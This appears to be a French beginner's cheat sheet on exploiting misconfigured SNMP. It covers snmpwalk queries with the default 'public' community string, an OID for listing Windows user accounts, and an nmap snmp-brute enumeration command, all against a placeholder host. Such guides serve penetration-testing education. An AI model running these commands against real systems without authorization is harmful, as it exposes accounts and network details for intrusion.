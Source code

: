 # Exploitation SNMP

## Objectif
Exploiter des faiblesses de configuration SNMP (community string par défaut, version non sécurisée) pour obtenir des informations sensibles ou rebondir sur d'autres systèmes.

---

## Explications vulgarisées
- SNMP est un protocole de gestion réseau. S'il est mal configuré (community string "public", version v1/v2c), il peut révéler des infos critiques (utilisateurs, mots de passe, config réseau).

---

## Commandes et étapes essentielles

### 1. Lecture d'informations système
```bash
snmpwalk -v1 -c public target.com
```
- **snmpwalk** : Outil pour interroger un agent SNMP.
- **-v1** : Version SNMP (tester aussi -v2c).
- **-c public** : Community string par défaut.
- **Exemple de sortie** :
```
SNMPv2-MIB::sysDescr.0 = STRING: Linux server 4.15.0-20-generic
SNMPv2-MIB::sysContact.0 = STRING: admin@target.com
```
- **À surveiller** : Infos système, utilisateurs, mots de passe en clair (!).

### 2. Extraction de comptes utilisateurs (Windows)
```bash
snmpwalk -v2c -c public target.com 1.3.6.1.4.1.77.1.2.25
```
- **OID 1.3.6.1.4.1.77.1.2.25** : Permet de lister les comptes utilisateurs sur certains systèmes Windows.

### 3. Enumération automatisée avec Nmap
```bash
nmap -sU -p 161 --script snmp-brute,snmp-interfaces,snmp-processes target.com
```
- **snmp-brute** : Teste des community strings courantes.
- **snmp-interfaces** : Liste les interfaces réseau.
- **snmp-processes** : Liste les processus en cours.

---

## Conseils pour débutants
- Toujours tester la chaîne "public" et "private" avant d'essayer d'autres valeurs.
- Attention à la version SNMP (v1, v2c, v3 : v3 est sécurisé, les autres non).
- Ne pas négliger les infos "banales" : elles peuvent révéler des failles.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - SNMP Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/SNMP%20Methodology)
- [SNMPwalk](https://linux.die.net/man/1/snmpwalk)
- [Nmap SNMP NSE Scripts](https://nmap.org/nsedoc/categories/snmp.html) 
